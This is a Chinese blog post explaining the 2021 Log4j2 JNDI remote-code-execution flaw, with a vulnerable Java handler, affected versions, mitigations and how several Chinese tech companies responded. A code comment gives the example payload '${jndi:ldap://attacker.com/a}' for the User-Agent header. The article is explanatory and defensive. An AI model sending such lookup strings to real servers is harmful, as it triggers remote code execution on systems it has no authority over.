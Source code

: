 
大家好，我是爱撸码的开源大叔！

最近这两天 log4j2 的事情闹得是沸沸扬扬的，本来大叔我是两耳不闻窗外事，一心只敲圣贤码的，谁知，公司研发群的一则通知打破了本来的宁静。

![](https://gitee.com/dmg0020/draw-bed/raw/master/imgs/20211211185509.png)

这个时候，我才意识到了问题的严重性，然后我就去各大程序员社区（知乎、CSDN、开源中国等）搜了一下，果然，这件事被大家讨论的沸沸扬扬。

![](https://gitee.com/dmg0020/draw-bed/raw/master/imgs/20211211190318.png)

大叔并没有着急整理这篇文章，而是**让子弹飞一会**。

## 漏洞介绍

### Apache Log4j2

Apache Log4j2 是一款开源的 Java 日志记录工具，大量的业务框架都使用了该组件。此次漏洞是用于 Log4j2 提供的 lookup  功能造成的，该功能允许开发者通过一些协议去读取相应环境中的配置。但在实现的过程中，并未对输入进行严格的判断，从而造成漏洞的发生。

### 漏洞原因

本次远程代码执行漏洞正是由于组件存在 Java JNDI 注入漏洞：**当程序将用户输入的数据记录到日志时，攻击者通过构造特殊请求，来触发 Apache Log4j2 中间的远程代码执行漏洞，从而利用此漏洞在目标服务器上执行任意代码**。

**那么什么是 JNDI 呢？**

> Java命名和目录接口（Java Naming and Directory  Interface，缩写 JNDI），是 Java 的一个目录服务应用程序接口（API），它提供一个目录系统，并将服务名称与对象关联起来，从而使得开发人员在开发过程中可以使用名称来访问对象。

利用下面这段代码，攻击者可以通过 JNDI 来执行 LDAP 协议来注入一些非法的可执行代码。

```java
public class VulnerableLog4jExampleHandler implements HttpHandler { 
    static Logger log = Logger.getLogger(log4jExample.class.getName()); 
    /** * A simple HTTP endpoint that reads the request's User Agent and logs it back. * * This is basically pseudo-code to explain the vulnerability, and not a full example. * * @param he HTTP Request Object */ 
    public void handle(HttpExchange he) throws IOException { 
        String userAgent = he.getRequestHeader("user-agent"); 
        // This line triggers the RCE by logging the attacker-controlled HTTP User Agent header. 
        // The attacker can set their User-Agent header to: ${jndi:ldap://attacker.com/a} log.info("Request User Agent:" + userAgent); 
        String response = "Hello There, " + userAgent + "!"; 
        he.sendResponseHeaders(200, response.length()); 
        OutputStream os = he.getResponseBody(); 
        os.write(response.getBytes()); 
        os.close(); 
    } 
}
```

感兴趣的小伙伴可以后台回复 [见证历史] 获得具体攻击手段，在本地尝试复现一下，**但是千万不要不当利用哦！**

### 影响范围

**Apache Log4j 2.x <= 2.15.0-rc1（据悉，官方rc1补丁有被绕过的风险）**

## 解决方式

当问题爆出来之后，大家都在积极修复该漏洞。

### 临时性缓解措施（任选一种）

- 在 jvm 参数中添加 -Dlog4j2.formatMsgNoLookups=true
- 系统环境变量中将 FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS 设置为 true
- 建议 JDK 使用 11.0.1、8u191、7u201、6u211 及以上的高版本
- 创建 “log4j2.component.properties” 文件，文件中增加配置 “log4j2.formatMsgNoLookups=true”
- 限制受影响应用对外访问互联网
- WAF 添加漏洞攻击代码临时拦截规则。

### 永久性解决方案

截止目前，Log4j2 官网已经发布了 Log4j2 2.15.0 正式版，来解决此次漏洞，大家可以升级到该版本来解决该漏洞。

## 八仙过海，各显神通

当问题出现之后，最重要的是先解决问题，咱国内的互联网大厂那可是一刻也没有松懈，全都迅速响应，拿出了自己的解决方案。

### 美团

org.apache.logging.log4j:log4j-core 在 2.10.0 以上增加了不启用 lookup 的配置项，但是默认关闭，官方暂无提供默认开启的正式版本。 

美团日志框架（xmd-log4j2）封装了 log4j2，在 1.4.1 将开关默认打开，防御上面的攻击场景。 

美团内大部分业务使用 xmd-log4j2 ， xmd-log4j2 会引入 log4j2，故使用 com.meituan.inf:xmd-log4j2 引入的 org.apache.logging.log4j:log4j-core，需升级com.meituan.inf:xmd-log4j2 到最新版本（1.4.1）完成修复。注：切勿使用 xmd-log4j2 2.0.0-Snapshot 包，这不是修复包。 

通过 maven 配置更新 xmd-log4j2，使用最新版本（1.4.1），或使用 inf-bom 1.4.14.1。

### 阿里

使用了 rasp，加了拦截策略。原理算是字节码增强，通过配置的规则，检测到了攻击就进行上报，或者直接抛出异常。这算是个防御手段，按照阿里人的说法，目前是止血。

### 字节

安全部门将对公司全部 Java 服务进行组件扫描与升级，禁止低版本 Log4j 组件在线上运行。

同时，我们也将开启针对低版本、高风险组件（Log4j2 和 FastJSON）的安全卡点。

### 百度

百度的我还没找到他们的解决方式，但是我偷偷的试了一下，确实已经解决了

![](https://gitee.com/dmg0020/draw-bed/raw/master/imgs/20211211203800.png)





## 思考

我们是历史的经历者，也是历史的见证者，当出现这样足以被载入史册的重大事件之后，我们在“吃瓜”之余，也要有一些自己的思考。

不仅仅是 Apache Log4j 2 组件，而是只要有数据和代码未曾分离的地方，全都是注入攻击的可寻之地。

因此我们在平时写代码的时候要严防各种注入，最常见的应该就是 SQL 注入了。

但是，我们也不要因噎废食，弃之不用。攻击检测和漏洞修复的工作，有很多研究机构和安全公司都在进行。历史是螺旋上升的，安全也是，前进性、曲折性和周期性不可避免。

> 王坚博士曾说：安全是互联网公司的生命，也是每一位网民的最基本需求。

最后我们为大家准备了由阿里知名白帽子道哥编写的《白帽子讲 Web 安全》，毕竟知己知彼百战百胜，感兴趣的朋友可以公众号回复【见证历史】获取~





​	

